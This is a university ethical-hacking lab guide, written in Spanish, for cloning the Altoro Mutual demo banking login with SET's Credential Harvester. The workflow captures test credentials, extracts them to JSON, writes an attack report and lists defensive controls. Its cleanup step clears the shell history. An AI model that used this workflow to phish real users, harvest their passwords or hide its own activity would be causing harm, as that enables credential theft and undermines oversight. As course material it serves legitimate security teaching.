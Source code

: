 # Laboratorio Semana 11 - Ingeniería social mediante clonación y captura de credenciales en Kali Linux - (CY-203 Hackeo Ético)

---

## 1. Objetivos
1. Clonar el portal de demostración `http://demo.testfire.net/login.jsp` que simula la banca en línea de Altoro Mutual.  
2. Capturar credenciales de prueba y almacenarlas en `creds.json`.  
3. Generar un informe en `informe_final.json` y proponer controles defensivos.

---

## 2. Requisitos técnicos  
| Componente | Versión mínima | Verificación |
|------------|----------------|--------------|
| Kali Linux | 2025.2 | `cat /etc/os-release` |
| Python | 3.11 | `python3 --version` |
| Social Engineer Toolkit (SET) | 9.1 | `setoolkit --version` |
| Apache | 2.4 | `apache2 -v` |
| jq | 1.7 | `jq --version` |

---

## 3. Preparación del entorno
```bash
sudo apt update && sudo apt -y full-upgrade
sudo apt -y install apache2 jq
sudo apt install setoolkit
sudo systemctl enable --now apache2
mkdir -p ~/week11_phish && cd ~/week11_phish
```
---

## 4. Clonado del sitio con SET
```text
1. sudo setoolkit
2. 1 Social Engineering Attacks
3. 2 Website Attack Vectors
4. 3 Credential Harvester
5. 2 Site Cloner
6. URL objetivo: https://demo.testfire.net
7. IP de Kali cuando se solicite (consulta con: ip -br addr)
```
Los archivos clonados se almacenan usualmente en `/var/www/html`.

---

## 5. Ejecución del harvester
```bash
sudo systemctl stop apache2        # libera el puerto 80
# SET mostrará: Credential Harvester is running on port 80
# Desde la víctima visita http://IP_Kali/login.jsp y envía credenciales de prueba
```
---

## 6. Reporte de SET
```bash
sudo ls -l /root/.set/reports
# Ejemplo de archivo:
# /root/.set/reports/2025-07-21 17:40:52.546938.xml
```
---

## 7. Extracción de credenciales a JSON
```bash
sudo cp '/root/.set/reports/2025-07-21 17:40:52.546938.xml' ~/week11_phish/report.xml
sudo chown $USER:$USER ~/week11_phish/report.xml
cd ~/week11_phish

grep -Eo '(uid|username)=[^&]+&(passw|password)=[^<]+' report.xml | \
awk -F'[=&]' '{u=($1~/uid|username/)?$2:$4; p=($3~/passw|password/)?$4:$2; print "{\"user\":\""u"\",\"pass\":\""p"\"}"}' | \
jq -s '.' > creds.json
```
---

## 8. Informe final
Crear el `informe_final.json`:
```json
{
  "victims": 3,
  "site_cloned": "https://demo.testfire.net",
  "credentials_file": "creds.json",
  "attack_vector": "Correo de alerta de transacción",
  "timestamp": "2025-07-21T17:00:00-06:00"
}
```
---

## 9. Controles defensivos sugeridos
* Activar autenticación de dos factores en la banca en línea.  
* Configurar SPF, DKIM y DMARC para evitar suplantación de correos.  
* Sensibilizar a los usuarios sobre la verificación del dominio y el candado TLS.  
* Bloquear dominios recién registrados desde el gateway de correo.

---

## 10. Limpieza
```bash
sudo pkill -f setoolkit
sudo systemctl start apache2
sudo rm -rf /var/www/html/*
history -c
```

 - ---

**Profesor:** Esteban Mata Morales  
**Curso:** CY-203 Hackeo Ético  
**Universidad Fidélitas de Costa Rica**
